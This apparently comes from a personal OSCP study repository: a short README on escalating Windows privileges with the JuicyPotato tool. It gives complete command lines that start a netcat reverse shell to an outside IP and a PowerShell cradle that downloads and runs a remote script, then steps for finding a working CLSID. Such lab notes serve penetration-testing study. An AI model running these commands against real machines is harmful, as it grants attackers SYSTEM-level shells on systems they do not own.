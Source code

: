# Juicy Potato Priv Esc
Download the exe from here: `https://github.com/ohpe/juicy-potato/releases/tag/v0.1`
Suporting files are located at: `Scripts/OSCP/Win_Enum/Priv_Esc_Method/JuicyPotato/`
1. **Execute JuicyPotato.exe to see if default CLSID will work:**

a. Calling back using nc reverse shell:
`c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *`

b. Calling back using powershell reverse shell:
`.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *`

 2. **Default CLSID Not Working:**

  a. If Default Doesnt run, use the `GetCLSID.ps1` and `join-object.ps1` 
  
   - Load `join-object.ps1` into the powershell session using:
     `import-module join-object.ps1`
    
   - Execute `GetCLSID.ps1` using:
     `.\GetCLSID.ps1`

  b. download the `test_clsid.bat` and configure the following before execution:
   - Change the path to the `CLSID.list` variable
     
   - execute the .bat file
     
   - when the port number changes, it signifies a working CLSID

  c. Test CLSID with JuicyPotato command. 
